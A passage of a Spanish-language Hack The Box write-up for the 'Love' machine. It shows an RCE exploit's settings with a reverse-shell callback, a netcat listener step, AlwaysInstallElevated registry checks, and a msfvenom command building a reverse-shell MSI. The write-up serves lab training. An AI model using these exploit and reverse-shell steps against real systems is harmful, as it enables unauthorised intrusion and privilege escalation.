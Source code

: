 Tuve un problema con el exploit, y tuve que editarlo.

Os dejo por aquí el archivo ya editado, y las líneas que debéis editar en caso de no usar el mío.

[RCE.py](/assets/scripts/HTB/Love/RCE.py)


```exploit
# --- Edit your settings here ----

IP = "www.love.htb" # Website's URL
USERNAME = "admin" #Auth username
PASSWORD = "@LoveIsInTheAir!!!!" # Auth Password
REV_IP = "10.10.14.2" # Reverse shell IP
REV_PORT = "4444" # Reverse port

# --------------------------------
  
INDEX_PAGE = f"http://{IP}/admin/index.php"
LOGIN_URL = f"http://{IP}/admin/login.php"
VOTE_URL = f"http://{IP}/admin/voters_add.php"
CALL_SHELL = f"http://{IP}/images/shell.php"
```

Ejecutamos netcat en el puerto configurado y lanzamos el exploit, también podría realizarse manualmente mediante la subida al servidor de una imágen a través del panel web.

Una vez dentro ya podremos leer el archivo user.txt

# Escalada de Privilegios

Una vez obtenemos acceso al sistema, estamos logueados como el usuario phoebe.

```powershell
C:\xampp\htdocs\omrs\images>whoami
whoami
love\phoebe
```

Para escalar uso diferentes técnicas de enumeración...

```windows
reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer
```


[https://www.hackingarticles.in/windows-privilege-escalation-alwaysinstallelevated/](https://www.hackingarticles.in/windows-privilege-escalation-alwaysinstallelevated/)

`Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections`


Existen diferentes métodos, yo mostraré uno usando msfconsole

Creamos un archivo msi con msfconsole


```bash
msfvenom -p windows/x64/shell_reverse_tcp lhost=10.10.14.2 lport=1234 -f msi -o rev.msi
```
 Lo subimos a la carpeta C:\Adminstration con ayuda del servidor de python
